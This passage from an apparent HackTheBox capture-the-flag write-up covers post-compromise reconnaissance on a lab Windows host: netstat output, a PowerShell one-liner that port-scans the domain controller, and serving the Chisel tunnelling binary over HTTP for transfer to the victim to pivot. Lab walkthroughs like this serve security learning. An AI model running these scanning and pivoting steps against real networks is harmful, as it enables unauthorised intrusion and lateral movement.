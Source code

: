 ```shell
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       420
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49693          0.0.0.0:0              LISTENING       616
  TCP    172.16.22.2:139        0.0.0.0:0              LISTENING       4
  TCP    172.16.22.2:5985       172.16.22.1:49942      ESTABLISHED     4
  TCP    172.16.22.2:5985       172.16.22.1:50040      ESTABLISHED     4
  TCP    172.16.22.2:52188      10.10.14.19:443        CLOSE_WAIT      4180
  TCP    172.16.22.2:52264      10.10.14.19:443        ESTABLISHED     4180
  TCP    172.16.22.2:52450      172.16.22.1:5985       TIME_WAIT       0
  TCP    [::]:135               [::]:0                 LISTENING       880
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       2496
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       624
  TCP    [::]:49665             [::]:0                 LISTENING       560
  TCP    [::]:49666             [::]:0                 LISTENING       572
  TCP    [::]:49667             [::]:0                 LISTENING       420
  TCP    [::]:49670             [::]:0                 LISTENING       624
  TCP    [::]:49693             [::]:0                 LISTENING       616
[...]
```

As you can see, there's a SMB running on TCP port 445, maybe its on the Domain Controller.

**We can perform a TCP port scanning to the Domain Controller via PowerShell:** (Modified from [https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585](https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585))
```shell
PS > 1..1024 | %{$socket = (New-Object System.Net.Sockets.TcpClient).BeginConnect('172.16.22.1', $_, $null, $null).AsyncWaitHandle.WaitOne(10); if ($socket){Write-Output "[+] TCP port $_ is opened!"}}
[+] TCP port 53 is opened!
[+] TCP port 88 is opened!
[+] TCP port 135 is opened!
[+] TCP port 139 is opened!
[+] TCP port 389 is opened!
[+] TCP port 443 is opened!
[+] TCP port 445 is opened!
[+] TCP port 464 is opened!
[+] TCP port 593 is opened!
[+] TCP port 636 is opened!
```

As you can see, **port 88 (Kerberos) is opened, so we can confirmed that `172.16.22.1` is the Domain Controller.**

To access that, we can do port forwarding. I'll be using [Chisel](https://github.com/jpillora/chisel).

- **Transfer [Chisel executable](https://github.com/jpillora/chisel/releases) to `Acute-PC01`:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:07:35(HKT)]
└> file /opt/chisel/chisel_1.7.7_windows_amd64.exe 
/opt/chisel/chisel_1.7.7_windows_amd64.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 6 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:07:42(HKT)]
└> python3 -m http.server -d /opt/chisel 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
